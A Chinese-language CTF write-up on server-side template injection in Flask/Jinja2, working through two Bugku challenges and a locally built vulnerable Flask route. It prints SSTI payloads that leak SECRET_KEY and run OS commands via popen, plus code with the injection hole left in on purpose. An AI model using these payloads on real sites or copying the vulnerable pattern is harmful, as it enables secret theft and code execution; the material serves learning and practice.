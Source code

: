 ```yaml
---
author: "Yiming Shen"
date: 2021-07-22
lastmod: 2021-07-22
title: "SSTI类型题目积累及资料"
tags: [
    "CTF",
    "SSTI",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
draft: true
typora-root-url: ..\static\
---
```


## SSTI类型介绍

SSTI即服务端模板注入攻击，服务端接收用户输入，将其作为Web应用模板的一部分，渲染编译后执行了恶意内容，导致敏感信息泄露、代码执行等。

工具：*tplmap*、*hackbar*

按这张图可以测试出具体是什么模板引擎：

![img](https://upload.nsg.cn/uploads/images/202009/26/9/8sFfzWRJrj.png!large)

### 1. Simple_SSTI_1

[Simple_SSTI_1](https://ctf.bugku.com/challenges/detail/id/196.html?page=3)

进入环境后，使用开发者工具查看网站源代码，发现一句提示：

> You know, in the flask, We often set a secret_key variable.-->

根据提示可以得出

1. 采用了flask框架

2. flag很有可能存储在secret_key中

尝试get注入：`?flag={{config.SECRET_KEY}}`

成功~

### 2.Simple_SSTI_2

[Simple_SSTI_2](ctf.bugku.com/challenges/detail/id/203.html)

题目提示了进行模板注入，套用魔术方法。

> /?flag={{config.__class__.__init__.__globals__['os'].popen('ls >   >../').read()}}
>
>   

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210310204413618.png)

发现存在以下文件夹，利用cd命令进入查看后，发现第一个app文件夹内有flag文件

> cat ../app/flag

查看flag文件，得解。

#### 本题思考

利用Python-flask框架搭建简易网站复现SSTI漏洞如下：

```Python
from flask import Flask
from flask import render_template
from flask import render_template_string
from flask import request
app=Flask(__name__)
@app.route("/login")
def login():
    username=request.args.get("flag")
    html='''
    <h1> Python本地网站-Login %s</h1>
    '''%(username)
    return render_template_string(html)

if __name__=="__main__":
    app.run(debug=True)
```

浏览器访问127.0.0.1:5050/login 

搭建成功~

传入表达式：?flag={{2**64}}

真不错，用Python高精度计算

``` shell
?name={{%27%27.__class__.__mro__[1].__subclasses__()[213].__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen("dir").read()}}
```

使用Windows平台下的命令get注入即可访问本地文件。


